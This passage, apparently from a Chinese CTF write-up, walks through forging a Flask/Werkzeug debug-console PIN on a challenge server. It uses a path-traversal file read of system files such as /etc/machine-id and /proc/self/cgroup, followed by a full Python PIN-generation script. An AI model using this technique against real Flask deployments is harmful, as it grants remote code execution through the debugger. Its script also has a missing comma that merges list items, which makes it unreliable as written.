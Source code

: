 用 pin 登录的时候发现登录失败, 然后想到 flask 2020 年有一次更新导致生成 pin 的方式发生了变化

看看题目服务器里的对应源码

```
http://eci-2ze7a80yj44cia7kndlu.cloudeci1.ichunqiu.com:8888/display/uploads/4b3c/8cab/test/usr/local/lib/python3.8/site-packages/werkzeug/__init__.py
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171939535.png)

先读取 `/etc/machine-id`, 再读取 `/proc/self/cgroup`, 最后把两个字符串进行拼接

cgroup 下载之后用源码里的代码跑一下

```python
linux = b""
with open("cgroup", "rb") as f:
    linux += f.readline().strip().rpartition(b"/")[2]
print(linux)
```

输出

```
96cec10d3d9307792745ec3b85c8962054c838c708041d6ae60ad7fbc13b336e438b8f820bbdb971f8fa7cd6b96644fe
```

改了之后还是不行, 又在网上搜了搜发现 flask 新版本生成 pin 的时候, 原来的 md5 加密改成了 sha1

参考文章

[https://blog.csdn.net/qq_42303523/article/details/124232532](https://blog.csdn.net/qq_42303523/article/details/124232532)

最终脚本如下

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'ctf'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '95529703075',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '96cec10d3d9307792745ec3b85c8962054c838c708041d6ae60ad7fbc13b336e438b8f820bbdb971f8fa7cd6b96644fe'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]
```